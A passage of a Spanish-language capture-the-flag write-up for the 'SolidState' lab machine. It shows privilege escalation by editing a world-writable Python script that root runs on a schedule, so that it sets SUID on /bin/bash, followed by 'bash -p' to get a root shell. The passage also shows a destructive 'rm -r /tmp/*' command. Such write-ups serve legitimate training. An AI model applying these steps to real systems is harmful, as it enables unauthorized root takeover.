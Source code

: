 ```
2024/08/02 13:24:01 CMD: UID=0     PID=8621   | python /opt/tmp.py 
2024/08/02 13:24:01 CMD: UID=0     PID=8622   | sh -c rm -r /tmp/*  
2024/08/02 13:24:01 CMD: UID=0     PID=8623   | sh -c rm -r /tmp/*  
```

Podemos `modificar` el `archivo` para que nos `spawnee` una `shell`

```
${debian_chroot:+($debian_chroot)}mindy@solidstate:/opt$ ls -l
total 8
drwxr-xr-x 11 root root 4096 Apr 26  2021 james-2.3.2
-rwxrwxrwx  1 root root  105 Aug 22  2017 tmp.py
${debian_chroot:+($debian_chroot)}mindy@solidstate:/opt$ cat tmp.py 
#!/usr/bin/env python
import os
import sys
try:
     os.system('rm -r /tmp/* ')
except:
     sys.exit()
```

`Modificamos` el archivo `tmp.py` para que le de permisos `SUID` a la `bash`

```
#!/usr/bin/env python
import os
import sys
try:
     os.system('chmod u+s /bin/bash')
except:
     sys.exit()
```

`Ejecutamos` este `comando` para que `cada segundo` nos `indique` el `estado` de la `bash`

```
${debian_chroot:+($debian_chroot)}mindy@solidstate:/opt$ watch -n 1 -c -x ls -l /bin/bash
Every 1.0s: ls -l /bin/bash                                                                                                                        solidstate: Fri Aug  2 13:37:47 2024
-rwsr-xr-x 1 root root 1265272 May 15  2017 /bin/bash
```

Nos `convertimos` en usuario `root`

```
${debian_chroot:+($debian_chroot)}mindy@solidstate:/opt$ bash -p
bash-4.4# whoami
root
```

